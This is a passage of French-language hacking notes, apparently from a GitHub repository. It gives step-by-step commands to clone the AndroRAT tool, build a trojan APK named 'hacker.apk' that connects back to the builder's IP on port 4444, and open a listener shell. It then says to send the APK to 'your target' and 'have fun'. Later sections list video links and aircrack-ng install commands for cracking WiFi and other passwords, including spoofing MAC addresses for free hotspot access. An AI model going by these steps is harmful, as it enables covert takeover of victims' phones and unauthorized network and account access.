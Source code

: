 ### Solution 2

- `git clone https://github.com/karma9874/AndroRAT.git`
- `cd AndroRAT`
- `pip install -r requirements.txt` ou `C:\Users\PCAlexandrePORT\AppData\Local\Programs\Python\Python311\Scripts\pip.exe install -r requirements.txt`
- `ip a` ou `ipconfig`
  - 192.168.32.1
- `py .\androRAT.py --build -i 192.168.32.1 -p 4444 -o hacker.apk`
- `py .\androRAT.py --shell -i 0.0.0.0 -p 4444`
- envoyer `hacker.apk` à votre cible et installation sur la cible
- amusez vous ! `help`

---
---

# Comment craquer un mot de passe Wifi ?

## Video d'explication

- [Comment pirater un réseau wifi rapidement avec n’importe quel distribution Linux](https://youtu.be/q92qdF0--JQ)
- [Comment craquer un mot de passe Wifi avec Kali Linux?](https://youtu.be/bzCAMWP1G1U)
- [how Hackers crack any WiFi password?! set strong WiFi password now!](https://youtu.be/QGzTCL1KkeY)
- [Hack Hotel, Airplane & Coffee Shop Hotspots for Free Wi-Fi with MAC Spoofing](https://youtu.be/taAD2z8spP0)

## Prérequis

- NE FONCTIONNE PAS SUR DOCKER CONTAINER OU VM OU WINDOWS
- [Kali linux](../../KaliLinux/readme.md)
- Aircrack-ng
  - Linux : `sudo apt-get install -y aircrack-ng`
    - `sudo apt-get install pciutils`

---
---

# Comment cracker un mot de passe ?

## Video d'explication

- [Comment cracker un mot de passe en 2022 (en moins de 20 secondes)](https://youtu.be/kSg9YLP_2_E)

### Pour information ou aller plus loin

- [how to HACK a password // password cracking with Kali Linux and HashCat](https://youtu.be/z4_oqTZJqCo)
- [how hackers crack any password?!](https://youtu.be/QOS-JXc60L0)
- [Attaque bruteforce - Cracker un mot de passe](https://youtu.be/-J1Nua5a50E)
